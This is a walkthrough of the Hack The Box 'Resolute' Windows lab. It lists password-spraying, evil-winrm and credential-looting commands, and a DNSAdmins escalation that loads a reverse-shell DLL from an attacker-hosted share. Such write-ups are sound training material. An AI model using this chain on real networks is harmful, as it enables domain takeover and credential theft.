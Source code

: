 # 🧑‍💻 Hack The Box – Resolute

## 📌 Overview
- **Machine Name:** Resolute
- **IP Address(es):** 10.10.10.169
- **Difficulty:** Medium
- **OS:** Windows
- **Tags:** SMB / LDAP / WinRM / Password Spray / PSTranscripts / DNSAdmins / DLL Injection (CVE-2021-40469)
- **Date Completed:** 2025.08.31
- **Status:** ✅ User | ✅ Root

---

## 🖥️ Initial Recon
### Nmap
```zsh
nmap -sC -sV -p- -Pn -oA nmap/resolute 10.10.10.169 -T5
```

**Key findings:**
- Domain: `megabank.local`
- SMB + LDAP + Kerberos → standard AD attack surface
- WinRM (`5985`) open → potential foothold
- DNS service (`53`) present → may matter later

---

## 📂 User Enumeration (Enum4Linux)
```zsh
enum4linux -a 10.10.10.169
```

Leaked description field:
```
Account: marko
Desc: Account created. Password set to Welcome123!
```

- Attempted SMB login with `marko:Welcome123!` → failed.  
- Sprayed password across all users → success with `melanie`.

```zsh
nxc smb RESOLUTE.megabank.local -u users.txt -p 'Welcome123!' --continue-on-success
[+] megabank.local\melanie:Welcome123!
```

---

## 🧭 BloodHound (Phase 1) – Melanie
Collected domain info:
```zsh
bloodhound-ce-python -d megabank.local -u 'melanie' -p 'Welcome123!' -c all -ns 10.10.10.169
```

- No interesting AD privileges.  
- But `melanie` is part of **Remote Management Users** → WinRM login possible.

### Foothold
```zsh
evil-winrm -i 10.10.10.169 -u 'melanie' -p 'Welcome123!'
*Evil-WinRM* PS C:\Users\melanie\Desktop> type user.txt
ce03758fb699d836dd40022ba039ef19
```

✅ Initial user shell obtained.

---

## 🔎 Host Enumeration
- **WinPEAS** run → no immediate hits.
- Manual hunt uncovered **C:\PSTranscripts\20191203**.
- Transcript revealed attempted SMB mount with plaintext creds:

```powershell
cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
```

Confirmed:
```zsh
nxc smb megabank.local -u 'ryan' -p 'Serv3r4Admin4cc123!'
[+] megabank.local\ryan:Serv3r4Admin4cc123! (Pwn3d!)
```

---

## 🧭 BloodHound (Phase 2) – Ryan
- `ryan` is member of **DNSAdmins**.  
- This group can configure the DNS service to load arbitrary DLLs → results in **SYSTEM**.  
- Microsoft acknowledged this as a vuln: **CVE-2021-40469**.

---

## 🚀 Privilege Escalation – DNSAdmins DLL Injection
1. Host malicious DLL (reverse shell):
```zsh
sudo impacket-smbserver share ./
```

2. Configure DNS service to load DLL:
```zsh
dnscmd localhost /config /serverlevelplugindll \\10.10.14.12\share\shell.dll
```

3. Restart DNS service:
```zsh
sc.exe stop dns
sc.exe start dns
```

4. Pop SYSTEM shell:
```zsh
PS C:\Users\Administrator\Desktop> type root.txt
ea306a1e4621b71e2e90c59d27f50d61
```

✅ Domain compromise achieved.

---

## 🏁 Flags
- **User.txt:** `ce03758fb699d836dd40022ba039ef19`
- **Root.txt:** `ea306a1e4621b71e2e90c59d27f50d61`

---

## 🧠 Lessons Learned
**Technical**
- Default onboarding passwords often get reused (password spray worked).  
- PowerShell transcripts (`PSTranscripts`) can leak sensitive data.  
- Membership in **DNSAdmins** is effectively privilege escalation to SYSTEM.  
- DLL injection remains a critical persistence/escalation vector.

**Personal**
- Don’t stop at automated tools; manual log hunting pays off.  
- Default password policies are often a weak link in AD.  
- Always re-check user group memberships after gaining new creds.

**Reusable Techniques**
- Enum4Linux for user/password leaks.  
- Password spraying across all discovered users.  
- Looting PowerShell transcripts for plaintext creds.  
- DNSAdmins DLL injection → SYSTEM (CVE-2021-40469).  
